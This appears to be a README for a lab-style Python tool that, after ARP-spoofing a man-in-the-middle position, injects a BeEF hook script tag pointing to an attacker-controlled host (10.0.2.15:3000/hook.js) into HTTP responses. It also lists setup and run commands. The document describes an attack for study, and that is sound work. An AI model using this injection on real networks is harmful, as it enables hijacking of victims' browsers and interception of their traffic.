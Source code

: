 # Web hooking
After establishing MITM connection (e.g. using ARP spoofing), looking at all the HTTP requests, the program removes HTTP <code>Accept-Encoding</code> header so the response HTML load will not be encrypted. The program inserts the javascript code, <code><script src="http://10.0.2.15:3000/hook.js"></script></code>, in the HTML load of the HTTP response as a script. The addition of the lines of code are performed by replacing <code></body></code>. The specified IP address is the one of the machine that runs the program or some remote machine whom you have control. Then the program modifies the <code>Content-Length</code> value w.r.t. performed HTML changes. After this phase, you can use BeEf, to insert code or manage actions on remote victim browser. BeEF is a framework that works using javascript code so it can work on every possible browser that supports javascript language (all browsers nowadays).<br>
To use this Interceptor, you need to install the following modules for python3, through this command:
<pre lang="bash"><code>apt install beef-xss build-essential python3 libnetfilter-queue-dev</code></pre>
<pre lang="bash"><code>pip3 install termcolor argparse</code></pre>
To run the program, you need to type for example this command on bash:
<pre lang="bash"><code>python3 hook_method.py</code></pre>
To check which parameters you can insert, you can type the command:
<pre lang="bash"><code>python3 code_interceptor.py --help </code></pre>
The program must run with superuser privileges and can work only on HTTP web pages.
For management of BeEF credentials, you can manage the file:
<pre lang="bash"><code>/usr/share/beef-xss/config.yaml</code></pre>
